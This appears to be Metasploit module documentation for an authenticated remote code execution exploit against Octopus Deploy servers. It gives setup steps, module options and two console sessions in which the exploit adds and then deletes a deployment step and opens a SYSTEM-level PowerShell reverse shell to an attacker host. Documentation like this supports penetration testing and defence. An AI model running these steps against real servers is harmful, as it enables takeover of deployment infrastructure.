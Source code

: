 ## Vulnerable Application

  [Install Octopus Deploy server](https://octopus.com/docs/getting-started#Gettingstarted-InstalltheOctopusserver)
  
  [Create a test user/team](https://octopus.com/docs/administration/managing-users-and-teams) - Team should have "Project contributor" and "Project deployer", or just "System administrator" and add your test user.
  
  [Create an API key](https://octopus.com/docs/how-to/how-to-create-an-api-key)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/octopusdeploy_deploy```
  4. Do: set ```PATH```, ```RHOST```, ```RPORT```, and ```SSL``` if needed
  5. Do: set ```STEPNAME``` if desired
  6. Do: set ```USERNAME``` and ```PASSWORD``` or just ```APIKEY```
  7. Do: ```run```
  8. You should get a shell.

## Options

  **APIKEY**

  API key, which can be generated within the Octopus Deploy application. Can be used instead of a username/password combination.

  **USERNAME**

  Username of the Octopus Deploy user.

  **PASSWORD**

  Password of the Octopus Deploy user.

  **RHOST**

  Host running Octopus Deploy server.

  **RPORT**

  Port Octopus Deploy is running on.

  **PATH**

  Path to the Octopus Deploy instance. For example, if you sign in to "https://example.com/octopus/app", the value should be "/octopus".

  **STEPNAME**

  Name of the step to be added to a deployment. This may be visible in the application for a short period of time. A random value will be generated if no value is provided.

  **SSL**

  Enables or disables SSL. Octopus Deploy server can be configured to listen to secure and insecure traffic.
## Scenarios

### Octopus Deploy Server 3.16.0

  Getting a privileged shell on Octopus Deploy server using administrative credentials.

  ```
  msf > use exploit/windows/http/octopusdeploy_deploy
msf exploit(octopusdeploy_deploy) > set PATH /octoADTest
PATH => /octoADTest
msf exploit(octopusdeploy_deploy) > set USERNAME ODUser
USERNAME => ODUser
msf exploit(octopusdeploy_deploy) > set PASSWORD Password1
PASSWORD => Password1
msf exploit(octopusdeploy_deploy) > set RHOST 10.0.0.12
RHOST => 10.0.0.12
msf exploit(octopusdeploy_deploy) > set RPORT 80
RPORT => 80
msf exploit(octopusdeploy_deploy) > set payload windows/powershell_reverse_tcp
payload => windows/powershell_reverse_tcp
msf exploit(octopusdeploy_deploy) > set LHOST 10.0.0.7
LHOST => 10.0.0.7
msf exploit(octopusdeploy_deploy) > run

[*] Started reverse SSL handler on 10.0.0.7:4444 
[*] Getting available projects
[*] Using project TestProject2
[*] Getting steps to TestProject2
[*] Adding step r4XAJc to TestProject2
[*] Getting available channels
[*] Using channel Default
[*] Getting next version
[*] Using version 0.0.2
[*] Creating release
[*] Release Releases-79 created
[*] Deploying TestProject2 version 0.0.2 to TestEnv
[*] Getting updated steps to TestProject2
[*] Deleting step r4XAJc from TestProject2
[*] Step r4XAJc deleted
[*] Powershell session session 1 opened (10.0.0.7:4444 -> 10.0.0.12:59346) at 2017-05-15 19:54:01 -0500

Windows PowerShell running as user WIN-OL1HR5KBTPD$ on WIN-OL1HR5KBTPD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Octopus\ADTest\Work\20170516025358-22>whoami
nt authority\system
PS C:\Octopus\ADTest\Work\20170516025358-22> exit

[*] 10.0.0.12 - Powershell session session 1 closed.  Reason: Died from Errno::ECONNRESET

msf exploit(octopusdeploy_deploy) >
  ```

  Getting a privileged shell on Octopus Deploy server using a sufficiently privileged API key.

  ```
  msf > use exploit/windows/http/octopusdeploy_deploy
msf exploit(octopusdeploy_deploy) > set PATH /octoADTest
PATH => /octoADTest
msf exploit(octopusdeploy_deploy) > set RHOST 10.0.0.12
RHOST => 10.0.0.12
msf exploit(octopusdeploy_deploy) > set RPORT 80
RPORT => 80
msf exploit(octopusdeploy_deploy) > set payload windows/powershell_reverse_tcp
payload => windows/powershell_reverse_tcp
msf exploit(octopusdeploy_deploy) > set LHOST 10.0.0.7
LHOST => 10.0.0.7
msf exploit(octopusdeploy_deploy) > set APIKEY API-FCIQ773M43RKNC4I9KZHQTABC
APIKEY => API-FCIQ773M43RKNC4I9KZHQTABC
msf exploit(octopusdeploy_deploy) > set STEPNAME shell
STEPNAME => shell
msf exploit(octopusdeploy_deploy) > run

[*] Started reverse SSL handler on 10.0.0.7:4444 
[*] Getting available projects
[*] Using project TestProject2
[*] Getting steps to TestProject2
[*] Adding step shell to TestProject2
[*] Getting available channels
[*] Using channel Default
[*] Getting next version
[*] Using version 0.0.3
[*] Creating release
[*] Release Releases-80 created
[*] Deploying TestProject2 version 0.0.3 to TestEnv
[*] Getting updated steps to TestProject2
[*] Deleting step shell from TestProject2
[*] Step shell deleted
[*] Powershell session session 1 opened (10.0.0.7:4444 -> 10.0.0.12:59373) at 2017-05-15 19:59:55 -0500

Windows PowerShell running as user WIN-OL1HR5KBTPD$ on WIN-OL1HR5KBTPD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Octopus\ADTest\Work\20170516025952-24>whoami
nt authority\system
PS C:\Octopus\ADTest\Work\20170516025952-24> exit

[*] 10.0.0.12 - Powershell session session 1 closed.  Reason: Died from Errno::ECONNRESET

msf exploit(octopusdeploy_deploy) > 
  ```